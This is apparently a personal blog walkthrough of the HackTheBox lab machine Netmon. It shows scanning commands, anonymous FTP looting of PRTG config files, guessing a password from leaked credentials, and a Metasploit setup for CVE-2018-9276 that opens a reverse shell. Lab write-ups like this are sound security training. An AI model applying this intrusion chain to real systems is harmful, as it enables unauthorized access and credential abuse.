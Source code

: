 ```yaml
---
title: "HTB Walkthrough: Netmon"
date: 2022-04-18T15:34:30-04:00
categories:
  - HackTheBox
tags:
  - HTB
  - Easy
  - FTP
  - Walkthrough
  - Internal
  - Enumeration
  - Penetration Tester Level 1
  - Weak Authentication
  - CVE-2018-9276
  - CVE Exploitation
  - Remote Code Execution
  - Public Vulnerabilities
  - Windows
---
```


![Netmon Logo](/assets/images/netmon.HTB/netmon2.jpg)

**Welcome** to this walkthrough for [HackTheBox's](https://www.hackthebox.com/) (HTB) machine Netmon. This one is listed as an 'easy' box and has also been retired, so access is only provided to those that have purchased VIP access to HTB.
Because of this, you may notice that it is necessary to be connected to HTB's VIP VPN server, rather than the free server. To do this, change the dropdown selection in the top right corner where you select "Connect"
to "VIP" and download the .ovpn package (yes, even as a paid user, you must toggle between free and paid VPN packages depending on the machine).


## Service Enumeration
So after we connect to the VPN via "sudo openvpn xxxxxxx.ovpn", we can turn on the Netmon machine and grab it's IP address. Now its time to run some simple network scans.

```bash
sudo nmap -sS -A -sV -T4 -v -p- 10.10.10.152 | tee nmap.log
dirb http://10.10.10.152/ /usr/share/dirb/wordlists/small.txt -f | tee dirb.log
nikto -h "http://10.10.10.152/" | tee nikto.log
```
## Port 21: FTP
As I am waiting for the scan to finish, I notice that port 21 is open and attempt to login with anonymous FTP(anonymous: ):
```bash
└─$ ftp anonymous@10.10.10.152 
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
Success! We have remote access to the filesystem. Let's go *root* around.
> Note: Using <em>feat</em> and <em>help</em> will show you available FTP commands that you can execute.  
> Also: (Using ! before a command will execute the command on your local machine, i.e. Kali)

I always check first to see if I can <em>put</em> or <em>get</em> files, ie. transfer them between local/remote filesystems. It appears I am only able to download files from the remote machine becuase the *get* request returns an error.

## User Flag
A quick look at the /Users/Public/ folder reveals the quickest user flag I have ever found:
 
![user.txt](/assets/images/netmon/netmon-user.jpg)

Alright, so after a few attempts to gain more information about the system, we see that there is a service named PRTG that seems very prevalent across important folders.
This may indicate that we want to take a look at some of this program's data files.  

Navigating to "/ProgramData/Paessler/PRTG Network Monitor/" we find multiple PRTG Config files... Bingo.
It is worth our while to <em>get</em> these config files, transferring them to our own system, so that we may run some data-grepping commands.  
With little effort, we come across <b>prtgadmin credentials</b> in <em>PRTG Configuration.old</em>
> **prtgadmin:PrTg@dmin2018**

!['prtgadmin' credentials in old config. file](/assets/images/netmon/prtgadmin-creds.jpg)

Let's check out our network scans:

![nmap scan](/assets/images/netmon/nmap.jpg)

## Port 80: HTTP PRTG Network Monitor (NETMON)
Navigating to the IP address in our browser redirects us to the NETMON login page:

![NETMON login page](/assets/images/netmon/prtg.jpg)

A quick Google shows us that the default credentials for PRTG are:
> **prtgadmin:prtgadmin**

However, this results in an invalid login. 
When we attempt <b>prtgadmin:PrTg@dmin2018</b> that we found earlier, we also get an invalid credentials error.
However, using a year at the end of a password is extremely common, and so is reusing passwords. Assuming a system doesn't allow a user to reuse a password, and that the user is lazy (oof), and also the file we found these credentials had the extension ".old", let's try:
> **prtgadmin:PrTg@dmin2019**

Success!

## Exploit & Root the Service
Now, there are still network scans to go through, as well as plenty of traffic (via Burpsuite, inspect source, etc.) to capture and fuzzing (for SQL injection, XSS, etc.).
But I will cut to the chase where I did a quick look for public exploits on this service:

![Searchsploit Results](/assets/images/netmon/searchsploit.jpg)

This netted us four results, and comparing the version numbers with what I gained earlier via basic web enumeration, this system may be vulnerable to Authenticated Remote Code Execution via:
> **Exploit Database:** [CVE-2018-9276](https://www.exploit-db.com/exploits/46527)

This exploit can be modified and run as a bash script to suit your needs, but what it essentially does is take advantage of the PRTG notification system to execute user-provided RCE.
These commands can also be executed in the web browser manually.
For utmost simplicity, use the exploit found in Metasploit by using the command <em>msfconsole</em> and setting it up in this way, using 'set' *parameter_name* *variable*:

```bash
Example:
set rhosts 10.10.10.152
set lhost tun0
set admin_password PrTg@dmin2019
etc, etc
```

![Metasploit RCE Configuration](/assets/images/netmon/msf.jpg)

Hooray! We got a shell. Now let's grab that root flag and be done with it:

![SYSTEM reverse TCP shell](/assets/images/netmon/shell.jpg)

![Root Flag](/assets/images/netmon/root-flag.jpg)

